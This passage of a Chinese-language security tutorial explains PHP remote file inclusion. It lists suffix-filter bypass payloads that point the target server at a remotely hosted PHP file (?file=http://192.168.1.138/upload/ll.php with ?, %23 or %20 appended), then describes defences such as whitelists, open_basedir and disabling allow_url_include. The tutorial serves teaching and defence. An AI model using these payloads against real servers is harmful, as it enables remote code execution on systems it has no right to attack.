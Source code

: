 远程文件包含造成漏洞的原因是一样的，当php.ini 中的配置选项`allow_url_fopen`和`allow_url_include`为ON的话，则包含的文件可以是第三方服务器中的文件，这样就形成了远程文件包含漏洞。即需要调用其他网站的恶意文件进行打开。

![远程文件包含1.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/7/25/1629885232236.png?x-oss-process=style/ImageWaterMark_V1.0)

原理和本地包含一样，但是包含的文件从本地文件变为了外网主机上的文件。

![远程文件包含3.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/7/25/1629885244538.png?x-oss-process=style/ImageWaterMark_V1.0)

![远程文件包含2.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/7/25/1629885239446.png?x-oss-process=style/ImageWaterMark_V1.0)

## 3、有限制的文件包含

如果目标服务器采用添加后缀名方式过滤文件包含，那可以使用符号绕过

#### 问号绕过

```php
?file=http://192.168.1.138/upload/ll.php?
?file=http://192.168.1.138/upload/ll.php%3f
```

#### #号绕过

```php
?file=http://192.168.1.138/upload/ll.php%23
```

#### 空格绕过

```php
?file=http://192.168.1.138/upload/ll.php%20
```

## 4、文件包含漏洞的防御

#### 路径限制

过滤.（点）/（反斜杠）\（反斜杠）。限制被包含的文件只能在某一文件内，禁止目录跳转字符，如：“…/”；

#### 设置白名单

基于白名单的包含文件验证，验证被包含的文件是否在白名单中。

#### 设置文件目录(配置php.ini)

PHP配置文件中有open_basedir选项可以设置用户需要执行的文件目录，如果设置目录的话，PHP仅仅在该目录内搜索文件。

#### 关闭危险配置(配置php.ini)

PHP配置中的allow_url_include选项如果打开，PHP会通过Include/Require进行远程文件包含，由于远程文件的不可信任性及不确定性，在开发中禁止打开此选项，PHP默认是关闭的。

#### 避免动态包含

尽量避免使用动态包含，可以在需要包含的页面固定写好，如：include(‘head.php’)。
